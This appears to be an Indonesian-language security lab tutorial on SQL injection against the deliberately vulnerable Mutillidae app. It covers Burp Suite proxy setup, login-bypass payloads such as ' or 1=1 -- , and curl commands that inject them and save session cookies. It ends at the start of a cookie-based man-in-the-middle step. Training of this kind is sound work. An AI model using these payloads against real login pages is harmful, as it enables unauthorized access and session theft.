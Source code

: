# Lesson 5 : SQL Injection, Burpsuite, cURL, Man-In-The-Middle Attack

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae ip metasploit pada alamat http://10.0.1.100/mutillidae

## Go To Login Page
- Buka halaman Login/Register

## Configure Firefox Proxy Settings
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan 127.0.0.1
   - Pada kolom Port 8080
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)
1. Login Tanpa Menggunakan Password
   - Pada kolom Textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
2. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan

## Simulate CURL SQL Injection: (Obtain Access #1)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1+--+&password=&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login1.txt
```
```bash
grep "Logged In" login1.txt
```
```bash
cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
1. Inspect Password Box Element
   - Buka halaman Login/Register
   - Pada kolom Textbox Name isikan samurai
   - Pada kolom Textbox Password klik kanan, kemudian inspect element
2. Edit Password Box Element
   - Replace string password menjadi text
   - Pada bagian size dan maxlength tambahkan kapasistasnya dari yg semula 20 menjadi 50
3. Berikan Kondisi Selalu True pada kolom Textbox Password
   - Pada kolom Textbox Password isikan **`' or (1=1 and username='samurai')--`**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
4. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy Tab
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to FIle"
5. Save File
   - Save file di : root
   - File Name: burp2.txt
   - Klik tombol Save
6. View Post Data (With Burpsuite)
   - cd /root
   - Jalankan perintah berikut:
```bash
   grep -i cookie burp2.txt
```
```bash
   grep -i username burp2.txt
```

Simulate cURL SQL Injection: (Obtain Access #2)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash 
	rm crack_cookies.txt
```
```bash
	curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29+--+&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login2.txt
``` 
```bash
	grep "Logged In" login2.txt
```
```bash
	cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt

## Restore Firefox Original Proxy Configurations
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
3. Connection Settings
   - Pilih no proxy
   - Klik Ok, Kemudian Close

## Simulate Man-In-The-Middle Attack
1. Start Cookies Manager+
2. Add Cookie Entry